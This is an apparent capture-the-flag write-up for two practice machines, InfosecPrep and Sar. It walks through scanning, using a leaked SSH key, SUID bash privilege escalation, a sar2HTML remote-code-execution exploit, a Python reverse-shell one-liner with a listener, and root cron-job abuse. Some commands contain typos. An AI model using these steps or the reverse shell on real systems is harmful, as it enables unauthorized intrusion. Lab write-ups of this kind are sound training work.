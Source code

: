 # Machine: InfosecPrep

- Vulnerability: Privilege Escalation

- The severity of the issue: High

- Description :

with the vulnerability, an attacker can gain unauthorized privileged access to a system

- Reproduction :

Going to our browser with the provided ip_add

With it (IP Address of the machine) the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	port => 80, 22 (good)!
  
Then with The help of Nikto, we can scan web servers for known vulnerabilities 

	nikto -host ip_add

After that we've some directories we've tested the common robots.txt which tells the search engines which directories not to enter :
 
	ip_add/robots.txt
	
	output -> /secret.txt
  
This seems like an interesting place to visit, after that we've got a text seems like a base64 encoded file with the equal sign the end first guess i thought let's decoded it
 
	wget ip_add/secret.txt ; cat secret.txt ; base64 -d > ssh_key.txt 
 
This is actually a private key and based on our previous scan we've noticed a port for ssh connection 22 
 
then we thought why not connect with the user 'oscp' and the host ip_add using the private key after changing their permissions (Secure) : 
 
	chmod 600 ssh_key.txt ; ssh -i ssh_key.txt user@ip_add -p 22 
 
Bingo we've login and we've got our first flag called local;
 

Let's scan with a tool just trying to search for possible and available exploits i'm using Linpeas :

	wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ; chmod +x linpeas.sh ; ./linepeas 

though the scan of Linepeas we've noticed a suid in the bash builtin command (indicates that the file has the setuid bit set) which means we can gain access through a ;

	/bin/bash -p
	whoami 
	
with the -p option through some googling it turns up it's a bug that allows the default shell to run with SUID privileges meaning that we have permission to run with the owner privilege

I gain access and i become a root

	cd /root/ ; cat proof.txt
	
Done!

# Resources:

https://gtfobins.github.io/gtfobins/bash/

man nmap, nikto

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS 


# Machine: Sar

- Vulnerability: Remote Code Execution (RCE)

- The severity of the issue: High

- Description :

an attacker can remotely execute commands on someone else's computing device

- Reproduction :

Going to our browser with the provided ip_add, it's a default page for the Apache2 server i've read and it has nothing

As always the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	we've got only an open port for http communication 80

  
testing our robots.txt:
 
	ip_add/robots.txt

It has a directory for sar2HTML i enter, and i've read the full page and i got no idea the first thing i did is to google the name of sar2HTML, and it turns up it a command execution and i've looked for the verified one using in exploit-db :

	searchsploit sar2HTML
	
the exploit is a python script i creat a rce.py file that has the script, good!

i've run the script and i required the url, i've to give him the url with the sar2HTML path;

	python3.9 rce.py
	
	url -> http://ip_add/sar2HTML/

then i require a command ;

	cmd => ls
	
good we've got for ourselves a remote code execution, since we're dealing with rce it would be useful to use the reverse shell in order to communicate (i'll be using python3 (already checked if it exists)):

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("My_machine_ip_add",Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
	
	-c option to run full syntaxes in single line

on the other side, i'm listing through the port i've specified early 
 
	ncat -lvp 1010


with both we've got for ourselves a connection with the victim machine, based on the other machine starting our search for a flag maybe called local.txt;

	find / -type f -name local.txt 2> /dev/null
	
bingo we've got a flag good

for this part i'm back to my favorite tool Linpeas :

	./linepeas 

we've noticed a crontab runnign every 5 min */5 with sudo priviliege located in /var/www/html/finally.sh ;

	ls -la ; cat ./finally.sh
	
noticed that we don't have permission to modify on the finally script but he can run the write.sh that we have privileges so why not modify it to become ;

	touch output.txt ; chmod 777 output.txt
	cd /root/ ; ls -la >  output.txt
	
since the output always shows up at the root machine i thought to redirect it to a file after playing the waiting game for 5 min the script runs successfully and i was able to see the file in the root directory 


since we've soul the files, i've modified the file to output anything to my file ;


	cd /root/ ; ls -la >  output.txt  

# Resources:
as always man pages for the tools i've used

https://www.exploit-db.com/exploits/49344

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/655cec1f1a438fa611777deedd2a19a26aff8485/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
